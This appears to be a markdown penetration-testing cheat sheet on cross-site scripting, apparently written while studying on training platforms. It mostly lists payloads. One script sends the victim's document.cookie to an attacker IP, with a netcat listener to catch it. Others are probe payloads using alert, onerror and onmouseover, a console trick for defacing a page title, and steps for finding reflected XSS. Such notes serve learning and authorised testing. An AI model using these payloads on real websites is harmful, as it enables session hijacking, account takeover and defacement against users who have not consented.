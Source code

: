 ```html
<img src="http://10.10.10.10/test"></img><a href="http://10.10.10.10/">click me</a>

# AN XSS PAYLOAD TO STEAL COOKIES
<script>new Image().src="http://10.11.0.4/cool.jpg?output="+document.cookie;</script>
We set up nc -lvnp 80 and when the user logs in, we get the cookie

script/xss
TRY '<>:;"
<script>alert(1)</script>
<img src=1 onerror=alert(1)>
"><h1>test</h1>
'+alert(1)+'
"onmouseover="alert(1)
http://"onmouseover="alert(1)

<h1></h1>  #try to insert HTML at first
window.location.hostname # know hostname or IPml
# DEFACE A WEBSITE
If there is an element > Inspect element > <span id="thm-title">
# TO CHANGE THE TITLE WITH CONSOLE
document.querySelector('#thm-title').textContent = "Hey"
```
{% endcode %}

## Reflected XSS

{% code overflow="wrap" fullWidth="true" %}
```sh
Only affects the person submitting the request, requires social engineering trick, most common XSS attack.
# Detection: 
- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers (although unlikely exploitable in practice)

https://insecure-website.com/status?message=All+is+well.
<p>Status: All is well.</p>
https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>
<p>Status: <script>/* Bad stuff here... */</script></p>
# Impact: perform any action that the user can perform
# How to find and test for reflected XSS vulnerabilities
Test every entry point
Submit random alphanumeric values (lenght of 8 is ideal) for every entry point and see if it gets reflected
Determine the reflection context. For each location within the response where the random value is reflected, determine its context. This might be in text between HTML tags, within a tag attribute which might be quoted, within a JavaScript string, etc. 
# XSS between HTML tags
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>
# TO BE CONTINUED...
```
{% endcode %}
